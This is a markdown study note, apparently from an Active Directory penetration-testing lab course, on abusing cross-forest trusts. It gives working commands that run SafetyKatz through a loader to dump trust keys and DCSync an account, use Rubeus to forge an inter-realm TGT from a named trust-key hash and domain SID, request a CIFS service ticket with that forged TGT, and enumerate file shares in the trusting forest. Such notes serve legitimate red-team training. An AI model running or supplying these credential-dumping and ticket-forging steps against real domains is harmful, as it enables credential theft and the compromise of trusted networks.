 ### Abuse

> [!NOTE] **IMPORTANT**
>**Unfortunately, we can only access resources that are explicitly shared by the trusting forest. This is due to the forest level being the security boundry and not the domain. Along with this the external forest DC will strip the `sIDHistory` of your ticket to make sure privileges aren't escalated**
>a
>The only way to enumerate resources on machines within a different forest is by forging a TGT for **each** machine (`cifs/ext-admin1.eurocorp.local`) then using `net view` to view whats shared

If you have Domain or Enterprise Admin in one forest you can pretty much automatically compromise an external forest.

Obtain Trust Key (as DA)
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-trust /patch"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\ecorp$" "exit"

C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch"
```

Forge an inter-realm TGT
```powershell
.\Loader -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:2aa239e4140375cf03be3d57f889278e /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                   |
| ------------------- | ------------------------------------------------------------- |
| silver              | Name of the module                                            |
| /rc4                | NTLM hash of the trust key                                    |
| /sid                | SID of the current domain                                     |
| /ldap               | Retrieve PAC information from the current domain DC           |
| /user:Administrator | Username for which the TGT is generated                       |
| /nowrap             | No newlines in the output                                     |

Use forged ticket to view possible file shares
```powershell
.\Loader -path .\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:<FORGED TICKET>
```

Test - **THIS WILL HAVE TO BE DONE ON ALL MACHINES IN AN EXTERNAL FOREST**
```powershell
net view \\eurocorp-dc.eurocorp.LOCAL

dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

> [!NOTE] **NOTE**
> Same as cross domain trust functionality, where the trusting DC only checks if it can decrypt the ticket using the **Trust Key** that both DCs have

![[Pasted image 20250519115856.png]]
### Cross Forest Kerberos Functionality
![[Pasted image 20250519115832.png]]